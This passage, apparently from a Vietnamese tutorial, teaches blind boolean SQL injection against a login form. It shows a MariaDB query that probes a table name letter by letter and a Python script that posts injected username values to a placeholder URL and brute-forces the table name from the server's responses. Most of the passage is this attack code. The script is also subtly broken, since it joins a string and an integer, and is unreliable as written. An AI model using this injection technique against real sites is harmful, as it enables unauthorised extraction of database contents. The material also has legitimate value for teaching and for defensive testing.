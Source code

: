    ```mysql
    MariaDB [xssuser]> (SELECT SUBSTRING(table_name,1,1) = 'm' FROM information_schema.tables WHERE table_schema not in ('information_schema', 'mysql', 'performance_schema') LIMIT 1);
    +---------------------------------+
    | SUBSTRING(table_name,1,1) = 'm' |
    +---------------------------------+
    |                               1 |
    +---------------------------------+
    1 row in set (0.00 sec)
    ```

  - *table name* của mình là *menu* nên kết quả sẽ trả về kết quả là 1 (true), nếu sai sẽ trả về 0 (false)

- Sử dụng 1 tool nào đó sẽ lấy ra được toàn bộ tên của *table name* khi ta cộng dồn từ từ các kết quả đúng lại với nhau

- 1 tool nho nhỏ của mình viết bằng python

  ```python
  import requests
  from string import *
  import re
  
  url = 'https://abc.xyz'
  
  char = digits + ascii_lowercase + ascii_uppercase
  
  listpass = ''
  
  no = []
  
  while True:
  	flag = 0
  	for x in char:
  		data = {
  			'username' : "admin' OR (SELECT SUBSTRING(table_name,"+len(listpass)+1+",1) = '"+x+"' FROM information_schema.tables WHERE table_schema not in ('information_schema', 'mysql', 'performance_schema') LIMIT 1)"
  		}
  
  		response = requests.post(url, data = data)
  
  		fin = re.findall('No admin', response.text)
  
  		if fin != no:
  			print('Test with ' + listpass + x + ' ----> sucess' )
  			listpass += x
  			break
  			
  		else:
  			print('Test with ' + listpass + x + ' ----> fail' )
  			flag += 1
  			
  	if flag == 62:
  		print('\n\nSucess with table name: ', listpass)
  		break
  
  ```
